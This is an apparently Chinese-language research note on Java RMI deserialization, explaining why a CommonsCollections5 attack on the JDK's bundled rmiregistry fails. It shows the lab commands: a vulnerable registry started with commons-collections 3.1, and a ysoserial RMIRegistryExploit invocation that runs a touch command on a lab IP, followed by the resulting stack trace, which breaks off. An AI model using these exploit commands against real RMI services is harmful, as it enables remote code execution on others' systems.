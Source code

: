 #
# The builtin DGC filter can approximately be represented as the filter pattern:
#
#sun.rmi.transport.dgcFilter=\
#    java.rmi.server.ObjID;\
#    java.rmi.server.UID;\
#    java.rmi.dgc.VMID;\
#    java.rmi.dgc.Lease;\
#    maxdepth=5;maxarray=10000
--------------------------------------------------------------------------

13) 为什么CommonsCollections5攻击JDK自带rmiregistry失败

参看:

《Java RMI入门》
http://scz.617.cn/network/202002221000.txt

在"9.1.1) inside rmiregistry"小节讲过，"rmiregistry 1099"相当于
"java sun.rmi.registry.RegistryImpl 1099"。

起初研究"攻击RMI Registry"，没有专门写服务端、客户端，是这样测试的:

java_8_40 \
-cp "commons-collections-3.1.jar" \
sun.rmi.registry.RegistryImpl 1099

java \
-cp ysoserial-0.0.6-SNAPSHOT-all.jar \
ysoserial.exploit.RMIRegistryExploit 192.168.65.23 1099 CommonsCollections5 \
"/bin/touch /tmp/scz_is_here"

想法很美好，服务端、客户端都是现成的。但客户端得到异常:

java.security.AccessControlException: access denied ("java.lang.RuntimePermission" "accessClassInPackage.sun.reflect.annotation")
        at java.security.AccessControlContext.checkPermission(AccessControlContext.java:457)
        at java.security.AccessControlContext.checkPermission2(AccessControlContext.java:523)
        at java.security.AccessControlContext.checkPermission(AccessControlContext.java:466)
        at java.security.AccessController.checkPermission(AccessController.java:884)
        at java.lang.SecurityManager.checkPermission(SecurityManager.java:549)
        at java.lang.SecurityManager.checkPackageAccess(SecurityManager.java:1564)
        at sun.misc.Launcher$AppClassLoader.loadClass(Launcher.java:311)
        at java.lang.ClassLoader.loadClass(ClassLoader.java:411)
        at java.lang.ClassLoader.loadClass(ClassLoader.java:411)
        at sun.rmi.server.LoaderHandler$Loader.loadClass(LoaderHandler.java:1207)
        at java.lang.ClassLoader.loadClass(ClassLoader.java:357)
        at java.lang.Class.forName0(Native Method)
        at java.lang.Class.forName(Class.java:348)
        at sun.rmi.server.LoaderHandler.loadClassForName(LoaderHandler.java:1221)
        at sun.rmi.server.LoaderHandler.loadClass(LoaderHandler.java:453)
        at sun.rmi.server.LoaderHandler.loadClass(LoaderHandler.java:186)
        at java.rmi.server.RMIClassLoader$2.loadClass(RMIClassLoader.java:637)
        at java.rmi.server.RMIClassLoader.loadClass(RMIClassLoader.java:264)
        at sun.rmi.server.MarshalInputStream.resolveClass(MarshalInputStream.java:214)
        at java.io.ObjectInputStream.readNonProxyDesc(ObjectInputStream.java:1613)
        at java.io.ObjectInputStream.readClassDesc(ObjectInputStream.java:1518)